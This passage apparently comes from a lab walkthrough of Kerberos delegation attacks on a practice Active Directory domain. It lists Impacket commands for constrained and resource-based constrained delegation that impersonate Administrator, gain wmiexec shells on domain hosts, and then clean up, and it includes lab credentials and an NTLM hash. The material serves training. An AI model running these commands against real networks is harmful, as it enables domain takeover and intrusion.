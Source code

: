 - Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)
```
# s4u2self on X (rbcd_const)
getST.py -self -impersonate "administrator" -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'

# s4u2proxy from X (rbcd_const) to constrained (castelblack)
getST.py -impersonate "administrator" -spn "host/castelblack" -additional-ticket 'administrator@rbcd_const$@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11  north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'
```

- You could also do the 2 (s4u2self + s4u2proxy) in one command :
`getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 north.sevenkingdoms.local/'rbcd_const$':'rbcdpass'`

- And launch the s4uProxy with the forwardable ticket
```
# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'

export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```

- After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin:
```
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 192.168.56.11 -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' north.sevenkingdoms.local/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 192.168.56.11 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete
```

## Resource Based Constrained Delegation
- Create a computer X (rbcd$)
`addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'`

- Add delegation write on our target from X (rbcd$)
`rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne`

- Now X (rbcd$) got delegation permission on our target, you can now do an s4u2self query followed by an S4u2proxy. This will result in an administrator permission on kingslanding.

```
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'

export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```
